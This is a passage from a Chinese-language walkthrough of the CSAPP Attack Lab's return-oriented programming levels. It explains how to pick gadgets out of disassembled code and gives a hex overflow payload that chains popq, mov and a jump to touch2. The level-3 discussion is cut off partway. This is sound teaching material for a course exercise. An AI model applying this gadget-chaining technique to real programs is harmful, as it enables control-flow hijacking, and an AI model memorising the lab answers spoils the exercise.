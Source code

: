 **显然找不到！**  

&emsp;&emsp;对于寄存器间的操作，能找到是正常的。但是对于数字间的赋值操作，找不到也是正常的，因为我们想赋值的数字千变万化，匹配不到很正常。所以对于赋值语句，我们要转换一下思路，不能使用mov语句来赋值，而应该使用别的，不是立即数形式的赋值语句，并且最好还和栈帧有关，因为我们只能在栈帧注入代码，换言之，我们所想要赋的值就保存在栈帧里。  

&emsp;&emsp;仔细遍历一下指令集，发现popq正好满足我们的要求！popq是将当前rsp的值赋值给某个寄存器，然后rsp+8。  

&emsp;&emsp;那么就好办了，我们将cookie值注入栈帧中，先是popq给某个寄存器，然后再通过ret跳转到mouv %rax,%rdi语句，然后再通过ret跳转到touch2函数。 
 
```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

&emsp;&emsp;仔细观察代码，发现在0x4019ab有一个gadget，且58是popq %rax，90是nop占位指令，恰好满足我们的要求。  

&emsp;&emsp;所以栈帧顺序是这样的：
1.	记录getbuf返回地址的rsp值应该是0x4019ab，用于跳转到popq %rax指令，跳转后rsp+8的值就是popq的值，也即是cookie值。
2.	在完成popq操作后，rsp再度加8变成rsp+0x10，此时ret返回应该是跳转到mov %rax,%rdi处，所以rsp+16是0x4019a2。
3.	执行完赋值语句后，程序应该通过ret跳转到touch2函数，所以rsp+0x18处存放到应该是touch2的程序入口地址。  

![Attack-rl2](https://github.com/sworduo/Course/blob/master/pic/CSAPP/LEC03-Attack/Attack-rl2.png "Attack-rl2")

代码如下：
```
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00    popq
fa 97 b9 59 00 00 00 00    cookie
a3 19 40 00 00 00 00 00    mov
ec 17 40 00 00 00 00 00    touch2
```

#	Rtarget-level-3
##	问题描述
&emsp;&emsp;和ctarget-level-3一样，只不过这次用ROP攻击方式。

##	解决思路
&emsp;&emsp;这题咋一看挺简单的，因为从level2我们就知道了用popq弹出栈帧内容并且赋值给rdi的方法。然而真正处理的时候才发现坑很大。  

&emsp;&emsp;首先，level3要输入的是字符串的地址，并且这个字符串是9位的！！不是8位的。这时候查表，我们可以找到将rsp赋值给rax的字节码。  

&emsp;&emsp;然而问题来了，将rsp赋值给rax后，rsp的内容并没有改变，此时ret返回的地址是rsp当前的值，也就是作为touch3参数的cookie值。而接下来ret将会以cookie值作为程序地址跳转，这显然是不行的。  

&emsp;&emsp;于是我们思考，能不能找到一个语句，在将rsp的内容赋值给rax之后，对rsp的值进行更改？确实有，那就是popq。所以我们的目标是，找到一句rsp赋值语句后接pop的字节码。  

&emsp;&emsp;然而找不到。此路不通。嗯，接下来，想到秃头也没想到怎么办才好，那就只能谷歌了。  

仔细观察代码，发现有一句：
```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
